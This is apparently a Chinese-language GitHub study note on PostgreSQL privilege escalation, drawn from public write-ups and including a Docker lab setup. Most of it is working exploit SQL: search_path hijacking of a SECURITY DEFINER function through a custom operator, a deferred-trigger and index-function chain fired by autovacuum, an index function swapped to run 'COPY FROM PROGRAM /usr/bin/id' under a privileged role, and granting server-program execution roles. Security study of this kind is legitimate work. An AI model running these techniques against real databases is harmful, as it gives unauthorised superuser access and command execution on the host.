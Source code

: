 # postgresql权限提升总结

## 参考文章：

https://www.cybertec-postgresql.com/en/abusing-security-definer-functions/

https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/

https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql

## docker创建环境

```
docker pull postgres:10.0

docker run --name my_postgres -e POSTGRES_PASSWORD=123456 -d -p 5432:5432 postgres:10.0
```

### 信息收集涉及的语句

#### 用户组、用户

```
SELECT r.rolname AS role_name,
       CASE
           WHEN r.rolsuper THEN 'Superuser'
           WHEN r.rolcreaterole THEN 'Create role'
           WHEN r.rolcreatedb THEN 'Create DB'
           WHEN r.rolcanlogin THEN 'Can login'
           WHEN r.rolreplication THEN 'Replication'
           WHEN r.rolconnlimit!= -1 THEN 'Conn limit: ' || r.rolconnlimit
           WHEN r.rolpassword IS NOT NULL THEN 'Has password'
           WHEN r.rolvaliduntil IS NOT NULL THEN 'Valid until: ' || r.rolvaliduntil
           WHEN r.rolbypassrls THEN 'Bypass RLS'
           ELSE ''
       END AS attributes,
       ARRAY_AGG(rm.rolname) AS member_of
FROM pg_roles r
LEFT JOIN pg_auth_members m ON r.oid = m.roleid
LEFT JOIN pg_roles rm ON m.member = rm.oid
GROUP BY r.rolname, r.rolsuper, r.rolcreaterole, r.rolcreatedb, r.rolcanlogin, r.rolreplication, r.rolconnlimit, r.rolpassword, r.rolvaliduntil, r.rolbypassrls
ORDER BY r.rolname;
```

#### 函数

查看public下的函数

```
SELECT proname AS function_name,
       proargtypes AS argument_data_types,
       prorettype AS result_data_type,
       proisagg AS is_aggregate,
       proiswindow AS is_window_function
FROM pg_proc
WHERE pronamespace = (SELECT oid FROM pg_namespace WHERE nspname = 'public');
```

查看函数代码

```
SELECT pg_get_functiondef('public.sum'::regproc);
```

```
SELECT prosrc
FROM pg_proc
WHERE proname = 'sum';
```

## 高权限自定义函数问题

创建危险函数

高权限用户运行

```
CREATE FUNCTION public.harmless(integer) RETURNS integer
   LANGUAGE sql SECURITY DEFINER AS
'SELECT $1 + 1';
```

SECURITY DEFINER代表运行函数时会使用创建函数的用户的权限


低权限运行

```
CREATE FUNCTION public.sum(integer, integer) RETURNS integer
   LANGUAGE sql AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1 OPERATOR(pg_catalog.+) $2';

CREATE OPERATOR public.+ (
   PROCEDURE = public.sum,
   LEFTARG = integer,
   RIGHTARG = integer
);

SET search_path = public,pg_catalog;

SELECT public.harmless(41);
```

search_path的意思是 先去public寻找函数harmless函数

运行harmless时是高权限账号 导致INSERT INTO public.t1 VALUES (current_user);插入的是高权限账号

## 触发器漏洞

整体流程

高权限运行索引-调用sfunc（低权限）-插入t0（低权限）-调用触发器-调用strig-调用snfunc（高权限）

使用

autovacuum_vacuum_threshold、autovacuum_analyze_threshold完成自动化

```
CREATE TABLE t0 (s varchar);

CREATE TABLE blah (a int, b int);
INSERT INTO blah VALUES (1,1); -- 必须要插入数据


CREATE FUNCTION sfunc(integer) 
  RETURNS integer
  LANGUAGE sql IMMUTABLE AS
  'SELECT $1';

CREATE INDEX indy ON blah (sfunc(a));

/*
使用替换的函数绕过IMMUTABLE，IMMUTABLE的意思是同样的参数只运行一次 后面传入参数一样的情况下都不再运行
*/

CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t0 VALUES (current_user); SELECT $1';


CREATE TABLE t1 (s varchar);

-- create a function for inserting current user into another table

CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1';

-- create a trigger function which will call the second function for inserting current user into table t1
CREATE OR REPLACE FUNCTION strig() RETURNS trigger 
  AS $e$ BEGIN 
    PERFORM snfunc(1000); RETURN NEW; 
  END $e$ 
LANGUAGE plpgsql;

/* create a CONSTRAINT TRIGGER, which is deferred
 deferred causes it to trigger on commit, by which time the user has been switched back to the
 invoking user, rather than the owner
*/
CREATE CONSTRAINT TRIGGER def
    AFTER INSERT ON t0
    INITIALLY DEFERRED 
    FOR EACH ROW
  EXECUTE PROCEDURE strig();

ALTER TABLE blah SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE blah SET (autovacuum_analyze_threshold = 1);
```

### SQL注入 高权限创建的函数

高权限创建的函数

![QQ_1732160674745](https://github.com/user-attachments/assets/8cf643e5-35ed-4f6e-9856-aad0b3d5c054)

低权限执行

![QQ_1732160720976](https://github.com/user-attachments/assets/35974216-ded7-4977-a72d-54795fb5a617)

实际是高权限执行的是

```
INSERT INTO public.test3(data) VALUES(current_user);
```

### postgresql用户组

可以将表的owner给用户组

创建一个索引函数

然后执行刷新 触发索引

用户组权限执行索引函数

查看自己所在的用户组

```
CREATE TABLE temp_table (data text); 
CREATE TABLE shell_commands_results (data text); 
 
INSERT INTO temp_table VALUES ('dummy content'); 
 
/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql IMMUTABLE AS 'select ''nothing'';'; 
 
CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

/*
自己要在cloudsqladmin这个role里面
*/
 
ALTER TABLE temp_table OWNER TO cloudsqladmin;
 
/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';'; 
 
ANALYZE public.temp_table; 

```

### grant权限提权

直接创建一个有权限的用户

pg_read_server_files
pg_write_server_files
pg_execute_server_program

```
CREATE USER james CREATEDB IN GROUP 
  pg_read_server_files,
  pg_write_server_files,
  pg_execute_server_program ROLE postgres;
```

